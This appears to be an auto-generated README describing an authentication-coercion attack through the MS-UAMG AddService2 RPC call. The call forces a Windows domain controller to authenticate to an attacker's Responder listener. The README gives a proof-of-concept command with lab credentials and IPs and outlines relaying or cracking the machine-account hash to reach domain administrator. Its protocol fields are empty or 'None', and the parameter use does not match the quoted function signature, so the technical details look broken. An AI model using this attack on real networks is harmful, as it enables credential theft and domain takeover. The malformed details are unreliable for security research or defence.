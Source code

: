 # MS-UAMG - Remote call to IUpdateServiceManager2::AddService2 (opnum 18)

## Summary

+ **Protocol**: [[MS-UAMG]: Update Agent Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441)

+ **Protocol UUID**: None

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`IUpdateServiceManager2::AddService2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d)

+ **Function operation number**: `18`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-UAMG`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-UAMG`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-UAMG]: Update Agent Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441) and allows to call RPC functions of this protocol. We will then call the remote [`IUpdateServiceManager2::AddService2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IUpdateServiceManager2::AddService2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddService2(
   [in] BSTR serviceID,
   [in] LONG flags,
   [in] BSTR authorizationCabPath,
   [out, retval] IUpdateServiceRegistration** retval
 );
```

## References

+ Documentation of protocol [MS-UAMG]: Update Agent Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/aa15d914-ca63-450c-904e-6b3ebd17b441

+ Documentation of function `IUpdateServiceManager2::AddService2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-uamg/e2d037e7-b25e-40f0-bb90-3f6071085d1d